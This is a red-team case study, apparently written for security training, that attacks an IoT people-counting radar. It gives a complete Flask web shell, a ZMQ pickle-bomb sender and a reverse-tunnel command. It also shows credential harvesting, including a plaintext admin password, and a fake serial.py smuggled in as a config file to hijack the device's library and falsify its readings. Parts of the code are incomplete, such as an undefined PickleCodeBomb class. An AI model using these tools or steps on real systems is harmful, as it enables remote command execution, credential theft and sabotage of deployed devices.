

# IoT System Attack Case Study 02

### Python Deserialization Attacks and Library Hijacking Attacks

**Project Design Purpose**: The objective of this cyber attack case study is to develop a workshop showcasing a practical demonstration of a red team attacker implementing an deserialization attacks on an IoT device to inject and remote execute a web shell on the IoT people detection radar device for cyber security professional training. Then bypass the IoT user authorization and get the admin page and all the user's password then implement the python library hijack attack to inject the malicious code in the lib used by the IoT firmware then mess up the IoT's function.

**Related Links**: 

**Attacker Vector**: ` Deserialization Attacks`, `Remote Code Execution`,  `Library Hijacked Attacks`

**Matched MIRTE-CWD**:

**Mapped MITRE-ATT&CK-TTP**:

```
# version:      v0.1.1
# Created:     	July 08, 2024
# Copyright:   	Copyright (c) 2024 LiuYuancheng
# License:     	MIT License
```

**Table of Contents**

[TOC]

------

### Introduction

This case study aims to demonstrate how a red team attacker find the vulnerability of a IoT device which can deserializes untrusted ZMQ incoming data. Then the attacker build a python pickle bomb malware to camouflage a web shell attack program in a normal config file data stream to send to the IoT device to by pass the authorization mechanism. Then use the web shell to steal the secret information from the IoT device then get the IoT admin page. After successful get the admin page, use the config file update interface to implement a python lib Hijacked to mess up the IoT Xandar radar's reading. The attack demonstration will encompass four primary projects:

- Raspberry PI Xandar Kardian IoT People Count Radar
- Python pickle bomb builder for Deserialization Attacks
- Flask web shell for Remote Code/Command Execution attack
- Python Serial COM lib Hijacking Attack

The attack path can also be used to explain and introduce the similar common vulnerabilities exploits such as CVE-2011-3389, CVE-2019-5021, CVE-2018-1000802, CVE-2019-9636, CVE-2019-20907 and the mitigations for avoid deserialization attack. 

**Attack Scenario Introduction**

The attack target is an simple IoT people detection radar. The IoT provides an web interface for the software engineers or network admins to change the IoT setting and manage the data access, the user need a valid credential (username and password ) to login the web page. For other programs which try to access the IoT data, they also need a valid access token which generate based on the username and password. For the IoT device, it also have one ZMQ server which can provide the basic not critical IoT config information such as the Ip config and port for the network admin can easily find the IoT in the network by using the IoT search program. 

During the attack the attack collect the network traffic and find the IoT search data packet are the includes serialized data using the pickle lib. After understand the protocol the attacker follow below steps to implement the attack path: 

1. Build the IoT ZMQ communication interface client program.
2. Build a single file flask web shell program which can be executed independently for Remote Command Execution and Privilege Escalation. 
3. Build a python pickle bomb to hide the web shell attack program in a normal bytes. 
4. User the ZMQ client program to send the pickle bomb as data to IoT. 
5. When the web shell is activated, search the credentials and break the IoT user authorization mechanism. 
6. The attacker login the IoT as a admin, then found a web-API which allow to upload *.txt format config file. Then he camouflage his fake serial port library Hijacking program as a config file then upload in the IoT. 
7. Change the Hijacking lib file to the related lib file and restart the IoT, after success we can see all the data reading are changed to 0.


------

### Background Knowledge

Within this section, we aim to provide fundamental, general knowledge about each respective system and elucidate the Tactics, Techniques, and Procedures (TTP) associated with the attack vectors. If you understand what's Python Deserialization Attack and Python Package Hijacking Attack, you can skip this section. 

#### Python Deserialization Attack

A deserialization attack occurs when an application deserializes untrusted or maliciously crafted data, leading to potential security vulnerabilities. These attacks can result in various forms of exploitation, including arbitrary code execution, data corruption, and denial of service. The vulnerability arises because the deserialization process often assumes that the incoming data is well-formed and trustworthy. For the detail Python Deserialization Attack example, you can refer to the detail of previous python Deserialization attack section: 

https://www.linkedin.com/pulse/python-deserialization-attack-how-build-pickle-bomb-yuancheng-liu-wi7oc/?trackingId=uW8zRHQfTd6VbKZ7MV41rg%3D%3D

#### Python Package Hijacking Attack

Python Package Hijacking, also known as Dependency Confusion or Dependency Hijacking, is a type of attack where an attacker exploits the way Python and its package management systems resolve and import modules. This attack can cause a Python application to import and execute malicious code instead of the intended, legitimate code. 

The attack leverages the search order of the Python interpreter or the package manager (like `pip`) when resolving dependencies. Python resolves imports by searching through directories listed in `sys.path` in order, starting from the current directory and moving to the system-wide libraries. Similarly, `pip` resolves package dependencies by searching through specified repositories. Normally there are 2 types of Hijacking Attack: 

- **Local File Hijacking**: An attacker places a malicious file in the local directory with the same name as a standard library module or a legitimate dependency. The program imports this local malicious file instead of the legitimate one due to Python's import resolution order.
- **Repository Hijacking**: The attacker publishes a package with the same name as an internal or private package to a public repository like PyPI. If the internal package is not properly scoped or namespaced, the public malicious package may be installed instead.

This  is a simple example scenario of local file hijacking attack:

Legitimate Program:

```
import random
print(random.randint(1, 10))
```

Malicious `random.py` File:

```
# Malicious code
print("Malicious random module imported!")
def randint(a, b):
    return 42  # Always return 42, or perform some malicious action
```

Python Package Hijacking is a critical security vulnerability that can lead to significant consequences if exploited. By understanding the mechanics of this attack and implementing robust security measures, developers can protect their applications and systems from such threats. Proper dependency management, secure coding practices, and regular code audits are essential steps in mitigating the risks associated with Python Package Hijacking.

#### Python Web Shell Attack 

A web shell attack script is a malicious script that is uploaded to a web server to provide an attacker with remote access and control over the server. Web shells are typically used by attackers to execute arbitrary commands, steal data, modify files, and perform other malicious activities on the compromised server. These scripts can be written in various programming languages commonly used in web development, such as PHP, ASP, JSP, and Python. The attack flow will follow below sequence:

1. **Initial Compromise**: The attacker exploits a vulnerability in the web application or server, such as an insecure file upload function, a code injection vulnerability, or a weak password, to upload the web shell script.
2. **Upload and Execution**: Once the web shell is uploaded, the attacker accesses it via a web browser or a specialized client. The web shell script is executed on the server, giving the attacker an interface to interact with the server.
3. **Remote Control**: The attacker uses the web shell to execute commands on the server, upload or download files, steal sensitive information, escalate privileges, and potentially use the compromised server to launch further attacks.

Web shell attack scripts are powerful tools used by attackers to gain remote control over web servers. Understanding how these scripts work and implementing robust security measures can help protect web applications and servers from such attacks. By securing file uploads, validating inputs, and maintaining vigilant monitoring, organizations can mitigate the risks associated with web shell attacks.


------

### IoT Cyber Attack Design 


#### Design of Pickle Bomb

Please refer this document for the pickle bomb design: https://www.linkedin.com/posts/yuancheng-liu-47b402174_deserializationabrattack-pickleabrbomb-cveabr2011abr3389-activity-7215623010290999297-ycMS?utm_source=combined_share_message&utm_medium=member_desktop


#### Design of flask web shell attack script

We use the python flask framework to build the web host portal, to make the script can be easily inject in to victim, the HTML page part are integrated in the python program directly. The web page provides the text field for user to input the command they want to execute, after press the run button, the command execute result will be automated update on the page. The page update uses socketIO pub-sub design. 

The work flow is shown below:


------

### IoT Cyber Attack Demo 

IoT IP: 172.23.155.209


#### Understand the Traffic and Find Vulnerabilities

The red team attack capture a bout 10 mins of the IoT traffic which includes the network engineer communicate with the IoT, he analyzed the pcap file and find there is one kind of protocol connect to the IoT: 


**IoT supported protocol 1: ZMQ connection  **  

Another connection protocol use `TCP`>`RSL`> `TCP` communication with the port 3003. After analyze the header, the hacker find that the communication can match the ZMQ communication structure and sequence. (ZMQ communication packet structure and sequence document: https://zguide.zeromq.org/docs/chapter7/). 

The ZMQ provide 3 types of communication: server-client, publish-subscribe and push-pull. Then the attack go through the TCP and RSL one by one in sequence, the find the communication between the IoT and the connection peer follow the request and response sequence. So he guess it is a ZMQ server-client module and on IoT there is a ZMQ server. 

Now he analysis the the bytes go to the ZMQ server, he finds the message is not a 'udf-8' or based64 encoded data : 


Then he write his simple ZMQ client program to implement a simple reply attack to the IoT and get the same bytes data:


Now the hacker mapping the data and the bytes 


He can confirm that he can connect to the IoT use ZMQ client to fetch some data, and the send message is pickled to bytes. Now he make his ZMQ client program which can send some data he can edit to the IoT:

```python
import zmq
import pickle
iotIP = '172.23.155.209'
port = 3003

context = zmq.Context()
print("Connecting to server...")
socket = context.socket(zmq.REQ)
#socket.connect ("tcp://localhost:%s" % port)
socket.connect("tcp://%s:%s" %(iotIP,port))
print("Sending request btyes via ZMQ client:")
#socket.send(b'123')
configData = {
    'TEST_MD': None , 
    'RADAR_TYPE':None,
    'RADAR_PORT': None,
    'RADAR_UPDATE_INTERVAL': None,
    'RPT_MD': None,
    'RPT_INT': None,
    'RPT_SER_IP': None,
    'RPT_SER_PORT': None,
    'WEB_PORT': None
}

pickledata = pickle.dumps(configData, protocol=pickle.HIGHEST_PROTOCOL)
print(str(pickledata))
socket.send(pickledata)
#  Get the reply.
replyData = socket.recv()
print("received reply bytes:")
print(str(replyData))
reqDict = pickle.loads(replyData)
print ("Received reply: \n %s" %str(reqDict))
```

The execution shows he can get the IoT config file information as shown below, and use the pickle loads function he can get the Web_port information which is 5000.


> Remark: the attacker can also use the Nmap to probing all the service of the IoT but that may be detected by the network thread detection program.

You can download the package file pcap example from link: https://github.com/LiuYuancheng/Xandar_PPL_Sensor_IOT_Web/blob/master/resource/ZMQ_package_example.pcapng


**IoT supported protocol 1: HTTP connection  **  

In the previous step The attacker find the normal http connection use port 5000, then he tried to access the IoT web interface with URL: http://172.23.155.209:5000/, the he get to the IoT home page: 


But he was blocked by the user login authorization page as he don't have a valid account to access more information:


But he tried dictionary attack he find there is user named "admin" but he don't know the password


After do the network analysis, the hacker find 2 possible vulnerability: 

1. The IoT ZMQ challenge use pickle to sterilize the data the he may be create a pickle bomb to do the python Deserialization Attack. 
2. There is a user named "Admin" which can login the IoT's management page, but he need to find how to by pass the authorization. 


#### Build A Pickle Bomb to Implement Deserialization Attacks

Based on the 1st vulnerability, now the hacker want to build a Pickle Bomb to attack the ZMQ server. You can follow this project to build a UDP comment executer : https://github.com/LiuYuancheng/Python_Malwares_Repo/tree/main/src/pickleBomb, in this section web will provide another easier solution which create a web shell which can run command on the IoT device. We use flask to build the web shell program, for the data feed back, we use soketIO so the command execution result will dynamically update on the page. As the port 5000 is used by the IoT management web host our web shell use 5001 and as we need to serialize the program as one pickle bomb, the HTML page need to be assembled as pure text string in the web shell program: 

```python
# The all in one version of the flask web shell which remove all the comments 
import subprocess
from flask import Flask, request
from flask_socketio import SocketIO, emit # pip install Flask-SocketIO==5.3.5
gflaskPort = 5000

HTML_CONTENT = """<!doctype html>
<html>
    <head>
        <!-- Required meta tags -->
        <meta charset="utf-8">
        <meta name="viewport" content="width=device-width, initial-scale=1, shrink-to-fit=no">
        <link href="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/css/bootstrap.min.css" rel="stylesheet">
        <script src="https://cdn.jsdelivr.net/npm/bootstrap@5.3.2/dist/js/bootstrap.bundle.min.js"></script>
        <script src="https://cdnjs.cloudflare.com/ajax/libs/jquery/3.5.1/jquery.min.js"></script>
        <script src="https://cdnjs.cloudflare.com/ajax/libs/socket.io/3.0.4/socket.io.js"></script>
        <title> Flask Web Shell </title>
    </head>
    <body>
        <h1> Flask Simple Web Shell </h1>
        <hr>
        <p> Input the command you want to execute on victim: </p>
        <form>
            <textarea class="form-control" style="font-family: monospace;" rows="1" id="cmdContents" name="cmdContents"></textarea>
            <button type="submit"> Rum cmd </button>
        </form>
        <hr>
        <p> Command execution result: </p>
        <form>
            <div id="cmdresult" style="display: block">
                <textarea class="form-control" style="font-family: monospace;" rows="10" id="resultContents" name="resultContents", value=""></textarea>
            </div>
        </form>
        <script>
            $(document).ready(function() {
                $('form').submit(function(event) {
                    event.preventDefault();
                    $.ajax({
                        type: 'POST',
                        url: '/cmdsubmit',
                        data: $('form').serialize(),
                    });
                });
                var socket = io();
                socket.on('connect', function () {
                    socket.emit('cli_request', { data:  'connected!' });
                });
                socket.on('exeResult', function (msg) {
                    console.log(msg.data);
                    document.getElementById('resultContents').innerHTML = msg.data
                });
            });
         </script>
    </body>
</html>
"""

app = Flask(__name__)
socketio = SocketIO(app)

@app.route('/')
def index():
    """ route to introduction index page."""
    return HTML_CONTENT

@app.route('/cmdsubmit', methods=['POST','GET'])
def cmdsubmit():
    """ Run the command the feed back the data to web."""
    cmd = request.form['cmdContents']
    cmd = cmd.strip()
    result = None 
    try:
        result = subprocess.check_output(cmd, shell=True).decode()
    except Exception as err:
        result = str(err)
    socketio.emit('exeResult', {'data': str(result)})
    return 'Command execution finished'

@socketio.event
def connect():
    emit('serv_response', {'data': 'web shell ready'})

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=gflaskPort, debug=False, threaded=True)
```

To download the full code of the web shell, please refer to this repo: https://github.com/LiuYuancheng/Python_Malwares_Repo/tree/main/src/flaskWebShell

After finished the web shell attack scrip, we need to build a Pickle bomb and send to the IoT's ZMQ server. You can use this Pickle Bomb builder program, here we combine the builder and sender together:

```python
iotIP = '172.23.155.209'
port = 3003

context = zmq.Context()
print("Connecting to server...")
socket = context.socket(zmq.REQ)
#socket.connect ("tcp://localhost:%s" % port)
socket.connect("tcp://%s:%s" %(iotIP,port))
print("Sending request btyes via ZMQ client:")

fileNameStr = 'flaskWebShellApp.py'
obj = None
try:
    with open(fileNameStr, 'r') as fh:
        dataStr = fh.read()
    obj = PickleCodeBomb()
except Exception as err:
    print("Error: can not read python file %s" % err)
    exit()
pickledata = pickle.dumps(obj, protocol=pickle.HIGHEST_PROTOCOL)
socket.send(pickledata)
#  Get the reply.
replyData = socket.recv()
print("received reply bytes:")
print(str(replyData))
reqDict = pickle.loads(replyData)
print ("Received reply: \n %s" %str(reqDict))
```

After run the sender to send the web shell pickle bomb as data string to the IoT , we open URL: http://172.23.155.209:5001/ and the attack web shell show up, the we have successful activated the bomb and compromized the IoT device. 

Now let's try some command to cd to the IoT firmware page to list the file : 


Now our deserialization attack got success. 


#### Bypass IoT Authorization and Implement Local File Hijacking Attack

Now we have successful to run command on the IoT device, can we create a reverse shell on the IoT or SCP file in to it ? we try the reverse shell command first: 

```
ssh -R 0.0.0.0:7070:localhost:22 172.23.155.1
```

We found that the ssh client is not installed, the error is shown below so we can not use reverse shell and SCP to transfer file to the IoT device:



Can we use command to change the firmware to implement the attack? Based on the file permission config as shown below, only the config file is allowed to write, all the firmware file are only allow read and execute:


Based on the 2nd vulnerability, the attacker try to search some data related to the string "admin" with the cmd 

```
grep "admin" Xandar_Sensor_Web/src/*
```

Then we can find there is one json file named users.json contents the "admin" but without the password:


Now we can cate the `Xandar_Sensor_Web/src/users.json` file: 


Now we can find the long password of the admin user: 

```
7kylHS@n3pEGgS$M&HYJmRf4A!a*xfdZADAG^HWDYx#tSBkjcW
```

Then we can login the IoT admin page:


And view the radar detection result, manage the radar user and the data fetch from the radar, but how to the admin can also reset the settings and we can not change the firmware, is there a way to permanently compromised the IoT device?  


The attack go thought all the pages, finally he find a place which can upload text format config file, but the file name must be Config_xxx.txt


He cat the radar serial communication firmware module  find it use python serial to read the data from the people detection radar:


and it init the serial communication with this code:

```
self.serComm = serial.Serial(self.serialPort, 115200, 8, 'N', 1, timeout=1)
```

Then use the read() function to read data from the radar, 

Now the hacker can do the local Local File Hijacking to replace the serial lib, the hacker make a serial.py file with below contents:

```
from struct import pack

class Serial(object):

    def __init__(self, port, bandwidth, bitNumber, parity, stopBit, timeout=1) -> None:
        pass

    def read(self, data):
        dataByte = b''
        for _ in range(2):
            data = self.dataHeader + pack('i', int(0)) + pack('i', 34)
            for _ in range(35):
                data += pack('f', round(0), 2)
            dataByte += data
        return dataByte
    
    def close():
        pass
```

Now we change this fake serial library to config_new.txt and upload in the IoT via the web portal and from the web shell, we can see the fake config file is accepted by the IoT device. 

Then change the file name from the web shell with cmd:

```
mv Xandar_Sensor_Web/src/Config_new.txt Xandar_Sensor_Web/src/serial.py
```


Now our library hijacking attack has finished. 


#### Show the Attack Effect

Now as there is only one config file, the IoT's config is not changed, and the fake serial communication module has been hijacked in the IoT and the firmwork will import his lib when it is executing:


Once any one restart the IoT device power, when the network admin log in the IoT device, he will see the below situation:


The radar connection indicator shows the radar is connected normally, but all the reading start to drop to 0. If we check all the reading they are also all 0 value:


No matter the IoT engineer reboot the IoT os, or reset the config file, he can not solve this problem. Now the IoT device is compromised ! 